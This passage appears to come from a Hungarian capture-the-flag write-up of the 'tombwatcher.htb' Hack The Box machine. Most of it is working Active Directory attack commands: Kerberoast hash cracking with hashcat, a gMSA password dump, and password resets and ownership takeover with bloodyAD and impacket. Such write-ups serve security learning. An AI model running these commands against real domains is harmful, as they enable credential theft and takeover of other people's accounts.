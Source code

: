 ```
hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt
```

- **Eredmény:** alfred : bas*********

---

## Csoport abuse, gMSA, service user

### Csoporttagság bővítés

```
bloodyAD -u 'alfred' -p 'bas*******' -d tombwatcher.htb --dc-ip 10.10.11.72 add groupMember INFRASTRUCTURE alfred
```

### gMSA dump

```
python3 gMSADumper.py -u 'alfred' -p 'bas******' -d 'tombwatcher.htb'
```
- Hash: ansible_dev$ : <hash>

### Jelszócsere Sam userre

```
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u 'ansible_dev$' -p '<hash>' set password SAM 'NoSecHere!'
```

---

## WriteOwner / GenericAll abuse, John reset

### WriteOwner átvétel:

```
impacket-owneredit -action write -target 'john' -new-owner 'sam' 'tombwatcher.htb/sam':'NoSecHere!' -dc-ip 10.10.11.72
```

### GenericAll John felett (Sammel):

```
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u 'sam' -p 'NoSecHere!' add genericAll john sam
```

### Jelszó reset John userre:

```
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u 'sam' -p 'NoSecHere!' set password john 'NoSecHere'
```

---